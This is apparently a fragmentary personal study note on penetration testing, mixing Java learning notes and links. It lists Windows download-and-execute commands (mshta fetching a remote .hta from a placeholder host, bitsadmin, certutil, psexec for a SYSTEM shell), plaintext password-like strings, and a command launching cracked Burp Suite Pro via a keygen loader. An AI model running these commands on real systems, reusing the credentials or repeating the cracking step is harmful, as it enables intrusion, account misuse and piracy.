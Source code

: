





Mashta http://ip:port/e.hta

Psexec.exe -s cmd.exe



Bitsadmin /transfer

Certutil msiexec



find /root -follow -maxdepth 0 ! (-user root -group root) -or (-perm /g=rwx,o=rwx)



https://blog.csdn.net/enweitech/article/details/51982114



PassW0rD%oRssH





**上课笔记**



result input





https://www.cnblogs.com/zlslch/p/7577457.html



java IO流



缓冲 异常 数据类型 基础类



LghLmcl@970713



## Mac安装burp

安装burp的教程：https://www.sqlsec.com/2019/11/macbp.html#toc-heading-8



```
cd /Users/ctwldnbiba0052/Desktop/work/burpsuite-2.1 && java -noverify -Xdock:icon=BurpSuite.icns -javaagent:BurpSuiteCn.jar -Xbootclasspath/p:burp-loader-keygen-2_1_05.jar -jar burpsuite_pro_v2.1.05.jar

cd /Users/ctwldnbiba0052/Desktop/work/burpsuite-2.1 && java -noverify -Xdock:icon=BurpSuite.icns -Xbootclasspath/p:burp-loader-keygen-2_1_05.jar -jar burpsuite_pro_v2.1.05.jar 
```



scp ubuntu@	:/home/ubuntu/shirodemo-1.0-SNAPSHOT.jar ./



github.com/ImP@ssW@orD900

PassW0rD%oRssH



command+shift+g 打开访问懂啊根目录